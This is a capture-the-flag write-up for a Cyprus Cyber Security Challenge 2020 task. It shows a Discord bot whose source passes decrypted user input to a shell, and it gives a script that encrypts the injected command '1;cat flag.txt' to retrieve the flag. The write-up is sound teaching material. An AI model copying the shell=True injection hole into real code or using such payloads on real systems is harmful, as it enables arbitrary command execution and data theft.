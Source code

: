 # CCSC2020
![Banner](Banner.PNG)
## WriteUps for the Cyprus Cyber Security Challenge

![Jaskier Challenge](Jaskier.JPG)

At this challenge, we were 
ded with an automated Discord bot - Jaskier - which had the following functionalities:
!help !frappe !ls !pwd !viewcode <function> !revenc <string>

### !help
```
| Jaskier: |
==============================
!frappe

Return a frappe for you

!ls

Returns the contents of the home directory

!pwd

Returns the current directory

!viewcode <function>
  
Returns the code of the given function. Be careful with that one!
Available functions: decrypt, hmask, h_rotl, blockify, cnt, revenc, pwd, ls, frappe

!revenc <string>
  
Reverses an encrypted string
Example of reversing 'Hello World': !revenc SJVsbG9Ap2+yzGEA|
```
Thus I started playing around with these functions
The result of !ls returned 4 files:
.bashrc
.profile
.bash_logout
flag.txt

The goal became obvious: *Find a way to inject code from the revenc function so that to cat the flag.txt file and get the flag*. 

After gathering all the functions together with the help of the !viewsource function, and reassemblying the parts together I was  able to view the complete source code of the bot:

```python
BLOCK_SIZE = 2
TABLE_DIM = 4

def decrypt(ct):
    dec = [] 
    blocks = blockify(ct, BLOCK_SIZE, b'\x00') 
    for blk in blocks:
        blk_int = int.from_bytes(blk, byteorder='big')
        for n in range(TABLE_DIM, -1, -1):
            a,b = cnt(blk_int, TABLE_DIM, n)
            blk_int = h_rotl(blk_int, a, TABLE_DIM, b)
        dec.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
    return b''.join(dec).strip(b'\x00')
def hmask(size, idx):
    return 2**size-1 << idx*size
#masking: setting size-1 bits on and shift them by idx*size 

def h_rotl(pt, rot, size, idx):
    """
    Horizontal left rotation. 
    """
    m = hmask(size, idx)
    blk = pt & m 
    #turning off idx*size bites from pt
    rot = rot % size
    #modulo
    r = ((blk << rot) | (blk >> (size - rot))) & m
    return pt ^ blk | r

def blockify(inpt, size, pad):
    return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]
    
def cnt(pt, size, idx):
    a,b = 0,0
    pt = pt >> idx * size
    for _ in range(size):
        if pt % 2 == 0: a+=1 
        else: b += 1 
        pt = pt >> 1
    return a,b

def revenc(ctx, params):
    try:
        dec_in = decrypt(base64.b64decode(params)).decode('utf-8')
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
        result = getResult.read()
        await ctx.channel.send(result.decode())
        print(dec_in)
    except Exception as e:
        print(e)
        await ctx.channel.send("Ops, something went wrong..")  
```
This particular line caught my attention, since it was passing the result of the decryption function into a subprosess as a variable {dec_in} via shell (shell = True)! 
```python 
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
```
Therefore all the environment variables and file globs could be accessed if we could inject the payload "1;cat flag.txt". 
By using the semicolon, we escape the brackets {}, and we assign the value 1 to the variable dec_in and we close the first argument. Then we can execute the command cat and extract the data from the flag file and voila, we have the flag.

The problem now is how can we assign these value to the dec_in variable.

Since we can only view the decryption function, we should create an encryption function, which will be encapsulating the string "1;cat flag.txt" to a form that after being decrypted would result to that plaintext in byte-form.

### Reversing the algorithm:

The cipher text was firstly been "blockified" into 4 by 4 blocks and then padded with null characters so that to match the desired size. Then with hmask() the blocks were shifted horizontaly using the parameters a and b. Since the shifting wasn't constant we had to construct an encyption function and take advantage of the existing cnt() function so that to   the value of a and b. 

### The solution:

The only thing left is to reverse the shifting in the h_rotr() function. Thus by providing the plaintext it can encode it using the same process in reverse. Then we encrypt the result in base 64 since at the decryption process is decrypted from base64 to bytes. Here is the complete source code.
```python
import base64
BLOCK_SIZE = 2
TABLE_DIM = 4

def h_rotr(pt, rot, size, idx):
  m = hmask(size, idx)
  blk = pt & m
  rot = rot % size
  r = ((blk >> rot) | (blk << (size - rot)))  & m #We change the shifting to reverse the decryption process
  return pt ^ blk | r

def encrypt(pt):
  enc = []
  blocks = blockify(pt, BLOCK_SIZE, b'\x00')
  for blk in blocks:
      blk_int = int.from_bytes(blk, byteorder='big')
      for n in range(TABLE_DIM):
          a,b = cnt(blk_int, TABLE_DIM, n)
          blk_int = h_rotr(blk_int, a, TABLE_DIM, b)
      enc.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
  print(enc)
  return b''.join(enc)
  
def blockify(inpt, size, pad):
  return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]

def cnt(pt, size, idx):
  a,b = 0,0
  pt = pt >> idx * size
  for _ in range(size):
    if pt % 2 == 0: a+=1 
    else: b += 1 
    pt = pt >> 1
  return a,b

def hmask(size, idx):
  return 2**size-1 << idx*size

s = b'1;cat flag.txt'
print(s)
a = base64.b64encode(encrypt(s))
print(a)
```
We pass the output to the Jaskier bot and we get the flag

*!revenc kWtswbSAZmwxx47U2NQ=*

#### flag: CCSC{w1th_g3r4lt_0f_R1via_al0ng_c4me_th1s_b0t}
***

